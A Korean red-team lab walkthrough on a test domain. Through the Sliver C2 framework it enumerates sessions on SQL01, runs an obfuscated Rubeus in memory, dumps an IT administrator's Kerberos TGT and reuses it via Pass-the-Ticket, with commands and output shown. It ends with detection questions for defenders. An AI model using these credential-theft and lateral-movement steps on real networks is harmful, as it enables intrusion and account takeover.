

# 6. 권한 상승 - SQL01

이번 섹션에서는 다음과 같은 주제들을 다룬다:

* Rubeus 난독화 및 인-프로세스 .NET 어셈블리 실행
* 계정 덤프 - TGT 덤프
* Pass-the-Ticket


<figure><figcaption></figcaption></figure>

SQL01 세션에서 다시 한 번 Rahat.Kuma 유저의 세션을 확인한다.

```
sliver (EXPLICIT_SILVER) > sa-enum-local-sessions

[*] Successfully executed sa-enum-local-sessions (coff-loader)
[*] Got output:
Enumerating sessions for local system:
  - [1] Console: SQL01\localuser
  - [2] (Disconnected): US\Administrator
  - [3] RDP-Tcp#6: US\Rahat.Kuma
```

이미 RDP 세션이 구축됐으니, 크레덴셜 덤핑(Credential Dumping)을 진행한다. LSASS 메모리 덤프 후 NT 해시를 획득하는 mimikatz 스타일의 크레덴셜 덤핑은 탐지가 너무 많이 되기 때문에, 굳이 진행하지 않는다. 대신, Rubeus를 이용한 TGT 덤프 후 Pass-the-Ticket을 이용한다.

SharpHound와 마찬가지로 Rubeus 또한 수동 난독화를 한 뒤 인-프로세스에서 사용한다.

먼저 Rubeus를 이용해 Rahat.Kuma의 TGT가 만료되지 않고 살아있는지 확인한다.

```
sliver (CHRONIC_MORTGAGE) > inline-execute-assembly /root/Rubeus.exe "triage"

Action: Triage Kerberos Tickets (All Users)

[*] Current LUID    : 0x3e7

-------------------------------------------------------------------------------------------------------- 
| LUID      | UserName                    | Service                            | EndTime               |
-------------------------------------------------------------------------------------------------------- 
| 0x12cb0a8 | Rahat.Kuma @ US.RT.LOCAL    | krbtgt/US.RT.LOCAL                 | 1/19/2025 9:05:26 PM  |
| 0x12091bb | Rahat.Kuma @ US.RT.LOCAL    | krbtgt/US.RT.LOCAL                 | 1/19/2025 10:33:46 PM |
| 0x12091bb | Rahat.Kuma @ US.RT.LOCAL    | LDAP/udc01.us.rt.local/us.rt.local | 1/19/2025 10:33:46 PM |
```

현재 시간 기준 아직 3시간 정도 사용할 수 있기 때문에, 덤프한다.


<figure><figcaption></figcaption></figure>

덤프한 TGT는 USWKSTN01에 Pass-the-Ticket을 이용해 활용한다.

```
sliver (TOUGH_BREADCRUMB) > inline-execute-assembly /root/Rubeus.exe "ptt /ticket:doIFmDCCBZSgAwIBBaEDAg <...생략...> 

[*] Action: Import Ticket
[+] Ticket successfully imported!

sliver (TOUGH_BREADCRUMB) > rubeus -- "triage"

[*] Current LUID    : 0x16c077f9

-------------------------------------------------------------------------------------- 
| LUID       | UserName                 | Service            | EndTime               |
-------------------------------------------------------------------------------------- 
| 0x16c077f9 | Rahat.Kuma @ US.RT.LOCAL | krbtgt/US.RT.LOCAL | 1/19/2025 10:33:46 PM |
--------------------------------------------------------------------------------------

```


## 마치며&#x20;

SQL01의 권한 상승을 통해 레드라쿤은 결국 SQL01에서 Rahat.Kuma 라는 IT 관리자의 TGT를 획득했다. 해당 유저는 도메인 관리자 소속까지는 아니지만, Tier0에 속하는 중요한 유저로서, 모든 서버에 로컬 관리자 권한을 갖고 있는 유저다.

이제 Rahat.Kuma를 이용해 추가 서버들을 장악해 도메인 장악까지 진행해본다.

## 우리 회사는

* 메모리상에서 Fork & Run 형태로 실행되는 .NET 어셈블리들을 탐지하고 방지할 수 있는가?
* LSASS 프로세스에 `LsaCallAuthenticationPackage` 등의 winapi를 이용해 TGT 덤프 하는 행위들을 찾아낼 수 있는가?
* rc4\_hmac 등의 오래된 해시 알고리즘을 바탕으로 티켓을 요청하는 행위에 대한 탐지가 있는가?

